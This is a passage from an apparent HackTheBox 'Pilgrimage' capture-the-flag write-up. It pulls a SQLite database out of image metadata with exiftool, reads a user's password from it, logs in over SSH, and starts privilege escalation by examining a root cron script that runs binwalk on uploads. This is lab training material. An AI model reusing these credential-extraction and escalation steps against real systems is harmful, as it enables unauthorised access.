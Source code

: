 We upload the image and download the shrunk one.

Now we get the hex for the `sqlite` file.

```bash
exiftool 64e5c8072eae8.png | grep -i 'raw profile' > data.hex
```

The hex string is so big so we save it to a file then upload the file to `CyberChef`

![q](4.png)

Now let's save the output to a file.

## **Foothold**

Using `sqlite3` we can investigate the database file.

```bash
$ sqlite3 pilgrimage.sqlite 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
images  users 
sqlite> select * from users;
emily|abigcxxxxxxxxxxxx
```

We found `emily`'s password, now let's ssh to the target.

```shell
$ ssh emily@pilgrimage.htb                 
emily@pilgrimage.htb's password: 
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
emily@pilgrimage:~$ id
uid=1000(emily) gid=1000(emily) groups=1000(emily)
```

## **Privilege Escalation**

By running `pspy64` we notice a cronjob running a bash script:

![q](5.png)

Let's see what the script does.

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
```